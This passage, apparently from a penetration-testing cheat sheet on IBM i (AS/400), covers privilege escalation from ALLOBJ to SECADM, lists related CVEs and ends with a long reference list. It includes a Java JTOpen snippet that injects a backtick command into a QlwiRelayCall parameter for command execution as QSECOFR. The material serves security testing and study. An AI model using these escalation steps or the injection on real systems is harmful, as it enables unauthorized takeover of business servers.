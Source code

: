 ### From ALLOBJ to SECADM

* Query users informations:

    ```c
    DSPUSRPRF USRPRF(*ALL) TYPE(*BASIC) OUTPUT(*OUTFILE) OUTFILE(PENTEST/USERDB)
    ```

* Create a CL script to escalate privilege and compile it with `STRPDM` (output is `PRIVESC`)
* Call the generated PGM (program object): `CALL PENTEST/PRIVESC USERWITHSECADM`

### Arbitrary Command Execution

* QSECOFR user - Compile as `.jar` file and run inside QSH: `java -jar /home/user/exploit.jar`

    ```java
    // Triggering with JTOpen
    sPGMCall.setProgram("/QSYS.LIB/QLWIUTIL4.SRVPGM");
    String str = "`id>/tmp/xy.txt`"; // command execution with QSECOFR
    ProgramParameter[] programParameterArr = {
        new ProgramParameter(2, new AS400Text(str.length() + 1, system).toBytes(str + (char) 0)),
        new ProgramParameter(2, new byte[16384], 16384) // hatmanager.jar
    };
    sPGMCall.setParameterList(programParameterArr);
    sPGMCall.setProcedureName("QlwiRelayCall");
    ```

* QSECOFR user - CVE-2023-40685
* QDIRSRV user - CVE-2023-40378
* QYPSJSVR user - CVE-2023-40686
* QBRMS user - CVE-2023-40377

## References

* [Abusing Adopted Authority on IBM i - Zoltán Pánczél - January 20, 2023](https://blog.silentsignal.eu/2023/01/20/abusing-adopted-authority-on-ibm-i/)
* [Adopted Authority - IBM Support - October 3, 2024](https://www.ibm.com/support/pages/adopted-authority)
* [An IBM i Hacking Tale - Pablo Zurro - April 6, 2023](https://www.fortra.com/blog/ibm-i-hacking-tale)
* [Another Tale of IBM i (AS/400) Hacking - Zoltán Pánczél - September 28, 2022](https://blog.silentsignal.eu/2022/09/28/another-tale-of-ibm-i-as-400-hacking/)
* [AS/400 for pentesters - Black Hat Europe 2006 - Shalom Carmel](https://www.blackhat.com/presentations/bh-europe-06/bh-eu-06-Carmel/bh-eu-06-Carmel.pdf)
* [Awesome-Mainframe-Hacking - samanL33T - July 10, 2019](https://github.com/samanL33T/Awesome-Mainframe-Hacking)
* [Below MI - IBM i for Hackers - Silent Signal - August 22, 2024](https://silentsignal.github.io/BelowMI/)
* [Common Misconcepts on IBM i User Class - *SECOFR - Dan Riehl - September 12, 2013](https://www.securemyi.com/nl/articles/userclass.html)
* [FrenchIBMi - Christian Massé - March 15, 2017](https://github.com/FrenchIBMi/Clubs/)
* [Geeking Out On IBM i - Part 1 - Anonymous - August 31, 2021](https://web.archive.org/web/20210831231128/https://blog.grimm-co.com/2021/07/geeking-out-on-ibm-i-part-1.html)
* [Guru: IBM i *USRPRF Security - Bruce Bading - May 23, 2022](https://www.itjungle.com/2022/05/23/guru-ibm-i-usrprf-security/)
* [Hack the Legacy: IBM I aka AS400 Revealed - Bart Kulach - December 25, 2015](https://youtu.be/JsqUZ3xGdLc)
* [Hack the legacy! IBM i (aka AS/400) revealed - Bart Kulach - May 11, 2021](https://media.defcon.org/DEF%20CON%2023/DEF%20CON%2023%20presentations/DEF%20CON%2023%20-%20Bart-Kulach-Hack-the-Legacy-IBMi-revealed.pdf)
* [Hacking IBM AS/400 in 2024: QShell and Remote Code Execution - Mateusz Lewczak - October 04, 2024](https://www.securitum.com/hacking_ibm_as400_in_2024.html)
* [How to get & crack AS/400 hashes? - Fossies - November 7, 2017](https://fossies.org/linux/john/doc/README.IBM_AS400)